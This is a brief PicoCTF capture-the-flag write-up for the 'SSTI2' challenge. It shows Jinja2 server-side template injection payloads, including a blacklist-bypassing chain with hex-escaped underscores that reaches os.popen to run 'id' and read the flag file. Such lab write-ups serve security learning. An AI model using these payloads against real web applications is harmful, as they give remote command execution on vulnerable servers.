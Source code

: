 # SSTI2 (PicoCTF)

`https://play.picoctf.org/practice/challenge/488`

```
Author: Venax
Description
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website here!
```

Same template engine as SSTI1 which was using jinja2 (flask/django). If we try to use our previous payload, `{{ ().__class__.__base__.__subclasses__()[356]('ls',shell=True,stdout=-1).communicate()[0].strip()}}`, this would appear:

![alt text](assets/ssti21.png)

So we are now under the assumption that this webserver has some blacklists, unlike SSTI1. After some research on jinja2 SSTI, I found this website: https://onsecurity.io/article/server-side-template-injection-with-jinja2/

There's this payload that bypasses some blacklisted chars, and it works:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

![alt text](assets/ssti22.png)

Final payload:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

![alt text](assets/ssti23.png)